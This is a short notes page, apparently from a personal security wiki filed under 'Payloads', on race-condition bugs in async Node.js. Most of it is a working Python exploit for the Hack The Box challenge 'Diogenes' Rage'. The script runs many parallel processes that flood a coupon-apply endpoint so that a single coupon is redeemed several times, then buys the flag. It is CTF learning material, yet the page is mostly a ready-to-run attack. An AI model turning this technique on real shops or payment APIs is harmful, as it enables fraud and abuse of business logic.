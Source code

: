 ```yaml
---
layout: default
title: Race Condition Vulnerability due to Async in Node.js
nav_order: 1
parent: Payloads
---
```


# Race Condition Vulnerability due to Async in Node.js
{: .no_toc }

---

Need to read:
- <https://www.nodejsdesignpatterns.com/blog/node-js-race-conditions/#:~:text=A%20race%20condition%20is%20a,try%20to%20present%20an%20example.>
- <https://b3cl4ssy.tistory.com/481?category=930183>

Example: HTB - Diogenes' Rage

Payload

```python
# Python program to illustrate
# the concept of race condition
# in multiprocessing
from cgitb import reset
import multiprocessing
import requests
import time
from pprint import pprint

def exploit(u, d, h):
	for i in range(5):
		requests.post(u, data=d, headers=h)

def perform_transactions(cookie, u):
	url = f"http://{u}/api/coupons/apply"
	data = '{"coupon_code":"HTB_100"}'
	thread = []
	headers = {"Content-Type" : "application/json"}
	headers['Cookie'] = "session="+cookie
	start = time.time()
	for i in range(16):
		p1 = multiprocessing.Process(target=exploit, args=(url, data, headers))
		thread.append(p1)
	for j in thread:
		j.start()

	for k in thread:
		k.join()
	end = time.time()
	print(f"{end - start:.5f} sec")
	print("Done!!")

def get_session(url):
    u = f"http://{url}/api/purchase"
    d = '{"item":"A2"}'
    res = requests.post(u, data=d)
    print(res.text)
    return res.cookies['session']

def get_flag(s, url):
    u = f"http://{url}/api/purchase"
    d = '{"item":"C8"}'
    headers = {"Content-Type" : "application/json"}
    headers['Cookie'] = "session="+s
    d1 = '{"item":"A1"}'
    res = requests.post(u, data=d1, headers=headers)
    print(res.text)
    res = requests.post(u, data=d, headers=headers)
    print(res.text)
    return res.cookies

if __name__ == "__main__":
    for i in range(10):
        u = "104.248.173.13:31008"
        s = get_session(u)
        perform_transactions(s, u)
        res = get_flag(s, u)
        pprint(res)
        time.sleep(1)
        print("\n\n")
```
